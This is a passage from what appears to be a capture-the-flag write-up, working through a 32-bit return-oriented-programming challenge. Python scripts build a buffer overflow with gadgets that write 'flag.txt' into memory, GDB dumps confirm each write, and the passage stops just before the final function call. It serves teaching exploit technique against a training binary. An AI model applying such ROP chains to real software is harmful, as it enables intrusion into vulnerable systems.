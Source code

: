 The B's wound up in the edi register while the D's ended up in the ebp register. Now I put the actual values I want in the two registers and attempt to use the ROP gadget to move the contents of ebp to the memory address in edi. 

```python 
import struct
import sys
buf=b'\x41'*44
#buf=b'\x43'*4 
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+= struct.pack('<L',0x0804a018) # .data address 
buf+=b'flag' # half of argument to write
buf+= struct.pack('<L',0x08048543) #mov    DWORD PTR [edi],ebp
buf +=b'\n'
out= bytes(buf)
sys.stdout.buffer.write(out)

```
 I check the memory location. 
 ```bash 
 (gdb) x/3x 0x804a018  
0x804a018:      0x67616c66      0x00000000      0x00000000
```
It appears the value has been written to memory. I have to write the second half of the argument to memory. 

``` python 
import struct
import sys
buf=b'\x41'*44
#writing first half of argument to memory
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+= struct.pack('<L',0x0804a018) # .data address
buf+=b'flag' # half of argument to write
buf+= struct.pack('<L',0x08048543) #mov    DWORD PTR [edi],ebp
#writing second half of argument to memory
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+= struct.pack('<L',0x0804a018+4) # .data address
buf+=b'.txt' # half of argument to write
buf+= struct.pack('<L',0x08048543) #mov    DWORD PTR [edi],ebp
buf +=b'\n'
out= bytes(buf)
sys.stdout.buffer.write(out)
```
 It appears to work. 
 ```bash 
 (gdb) x/3x 0x804a018    
0x804a018:      0x67616c66      0x7478742e      0x00000000
 ```
 It is now time to make the call to the `print_file@plt` function with the memory location where I wrote flag.txt as an argument. 
 
 ``` python 
import struct
import sys
buf=b'\x41'*44
#writing first half of argument to memory
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+= struct.pack('<L',0x0804a018) # .data address
buf+=b'flag' # half of argument to write
buf+= struct.pack('<L',0x08048543) #mov    DWORD PTR [edi],ebp
#writing second half of argument to memory
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+= struct.pack('<L',0x0804a018+4) # .data address
buf+=b'.txt' # half of argument to write
buf+= struct.pack('<L',0x08048543) #mov    DWORD PTR [edi],ebp
# function call
 ```